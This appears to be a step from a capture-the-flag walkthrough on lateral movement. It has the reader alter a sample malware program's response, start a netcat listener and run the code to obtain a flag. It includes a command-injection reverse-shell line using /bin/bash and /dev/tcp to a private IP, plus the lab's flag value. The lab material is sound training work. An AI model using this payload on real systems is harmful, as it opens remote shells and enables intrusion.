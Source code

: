 # Lateral Movement 2

1. Resume From [🗂 Discovery 1](../04-Discovery-1/)
2. Rev Eng `ExecuteCommands` Function in [🗂 Discovery 1](../04-Discovery-1/06-main)

3. Change Malware Response in [🗂 malware.go](./03-main.go)
```
Lines: 92 to 94
;/bin/bash -i >& /dev/tcp/10.120.0.7/9898 0>&1;
```
4. (Local PC) Start: `nc -l 0.0.0.0 9898`
5. Run `go run 03-main.go`
6. Get Flag: MAZAPA_5b84f8d3bff36108c88c36e65dce2d77
![Petromaz Map](./06-Real-Flag.png)